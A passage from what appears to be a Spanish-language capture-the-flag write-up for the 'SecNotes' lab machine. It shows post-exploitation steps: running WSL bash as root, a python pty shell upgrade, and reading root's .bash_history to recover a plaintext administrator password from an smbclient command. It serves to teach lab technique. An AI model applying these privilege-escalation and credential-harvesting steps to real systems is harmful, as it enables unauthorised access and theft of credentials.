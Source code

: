 ```bash
C:\Distros\Ubuntu>where /R c:\ bash.exe
where /R c:\ bash.exe
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
```
Lo ejecutamos.

```bash
C:\Distros\Ubuntu>c:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe     
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
mesg: ttyname failed: Inappropriate ioctl for device
whoami
root
python -c "import pty;pty.spawn('/bin/bash')"
root@SECNOTES:~# ls
ls
filesystem
root@SECNOTES:~#
```
Al buscar en este me encuentro lo siguiente en el bash\_history.

```bash
root@SECNOTES:~# ls -la
ls -la
total 8
drwx------ 1 root root  512 Jun 22  2018 .
drwxr-xr-x 1 root root  512 Jun 21  2018 ..
---------- 1 root root  398 Jun 22  2018 .bash_history
-rw-r--r-- 1 root root 3112 Jun 22  2018 .bashrc
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
drwxrwxrwx 1 root root  512 Jun 22  2018 filesystem
root@SECNOTES:~# cat .bash_history
cat .bash_history
cd /mnt/c/
ls
cd Users/
cd /
cd ~
ls
pwd
mkdir filesystem
mount //127.0.0.1/c$ filesystem/
sudo apt install cifs-utils
mount //127.0.0.1/c$ filesystem/
mount //127.0.0.1/c$ filesystem/ -o user=administrator
cat /proc/filesystems
sudo modprobe cifs
smbclient
apt install smbclient
smbclient
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
> .bash_history 
less .bash_history
```
Tenemos la posible clave de administrator.
